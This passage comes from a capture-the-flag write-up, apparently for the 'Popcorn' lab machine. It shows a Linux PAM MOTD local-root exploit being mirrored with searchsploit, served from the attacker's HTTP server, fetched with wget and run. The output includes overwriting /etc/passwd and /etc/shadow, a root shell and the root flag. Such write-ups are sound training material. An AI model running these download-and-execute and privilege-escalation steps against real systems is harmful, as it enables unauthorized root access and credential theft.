 ```
RedHat Linux 6.0/6.1/6.2 - 'pam_console' Monitor Activity After Logout                                                                                    | linux/local/19900.c
```

I went ahead and mirror'ed `Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)`:

```bash
searchsploit -m linux/local/14339.sh
```

I then transferred the exploit to the popcorn machine over HTTP:

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.6 - - [06/Sep/2020 15:47:18] "GET /14339.sh HTTP/1.0" 200 -
```

```
www-data@popcorn:/dev/shm$ wget http://10.10.14.24:8000/14339.sh
--2020-09-06 22:48:25--  http://10.10.14.24:8000/14339.sh
Connecting to 10.10.14.24:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3042 (3.0K) [text/x-sh]
Saving to: `14339.sh'

100%[==================================================================================================================================================>] 3,042       --.-K/s   in 0s

2020-09-06 22:48:25 (205 MB/s) - `14339.sh' saved [3042/3042]

www-data@popcorn:/dev/shm$ chmod +x 14339.sh
www-data@popcorn:/dev/shm$ ./14339.sh
[*] Ubuntu PAM MOTD local root
[*] Backuped /var/www/.ssh/authorized_keys
[*] SSH key set up
[*] Backuped /var/www/.cache
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] Restored /var/www/.cache
[*] Restored /var/www/.ssh/authorized_keys
[*] SSH key removed
[+] Success! Use password toor to get root
Password:
root@popcorn:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@popcorn:/dev/shm# cat /root/root.txt
f122331023a9393319a0370129fd9b14
```

Note: If the exploit doesn't work out of the box, it is likely because SSH key-based authentication isn't properly setup for your current user.
You can fix this by running the following script. **Only do this if your current user doesn't have SSH configured since the script below will overwrite your existing SSH keys!**
